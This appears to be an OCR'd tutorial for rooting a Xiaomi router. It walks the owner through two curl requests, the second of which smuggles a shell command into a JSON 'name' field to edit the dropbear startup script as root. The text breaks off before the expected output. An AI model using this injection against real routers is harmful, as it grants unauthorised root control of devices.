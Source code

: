 # —— Text ——
Everything is ready to stop, and we're ready to go.  
First, please turn on your router and connect it to your device.  
Please confirm the IP address of your router and log in to the router background to get the stok value.  
### (?) Don't know how to get the STOK value? Please search the forums for relevant tutorials.  
In the following, parts are referenced in this way:  
### `<HOST>` : The IP address of your router
### `<TOKEN>` : The stok value you get

Let's get started.

### Step 1: Activate the Mi Home Smart Controller function
The SmartController feature is disabled by default in most scenarios, and we need to activate it by resetting the router system time.
Open your terminal software and enter the following command:

> curl -X GET "http://`<HOST>`/cgi-bin/luci/;stok=`<TOKEN>`/api/misystem/set_sys_time?time=2023-2-19%2023:4:47&timezone=CST-8"

## [!] Note: This will reset your router's system time to 2023-02-19 23:04:47 and the timezone is GMT +8, Please recall the system time after the injection is completed。
Now that we've activated the SmartController feature, we're ready to start injecting.

### [!] Note: For Windows users, Please do not execute within PowerShell。 PowerShell's built-in curl command format is different from the one used in this article. Please use cmd (conhost) / git bash / wsl.

### (?) Troubleshooting: Can't find the curl command?
Visit: https://www.google.com/search?q=Can%27t+find+the+curl+command&ie=UTF-8

# Step 2: Use the SED to unlock the dropbear configuration
Now, we can inject a vulnerability to execute arbitrary commands as root on the router without any restrictions. Let's use sed to replace all release fields in /etc/init.d/dropbear with XXXXXX.

> curl -X POST "http://`<HOST>`/cgi-bin/luci/;stok=`<TOKEN>`/api/xqsmarthome/request_smartcontroller" -d "payload=%7B%22command%22%3A%22scene_setting%22%2C%22name%22%3A%22'%24(sed%20-i%20s%2Frelease%2FXXXXXX%2Fg%20%2Fetc%2Finit.d%2Fdropbear)'%22%2C%22action_list%22%3A%5B%7B%22thirdParty%22%3A%22xmrouter%22%2C%22delay%22%3A17%2C%22type%22%3A%22wan_block%22%2C%22payload%22%3A%7B%22command%22%3A%22wan_block%22%2C%22mac%22%3A%2200%3A00%3A00%3A00%3A00%3A00%22%7D%7D%5D%2C%22launch%22%3A%7B%22timer%22%3A%7B%22time%22%3A%223%3A1%22%2C%22repeat%22%3A%220%22%2C%22enabled%22%3Atrue%7D%7D%7D"

The return after executing this command should look something like this:  
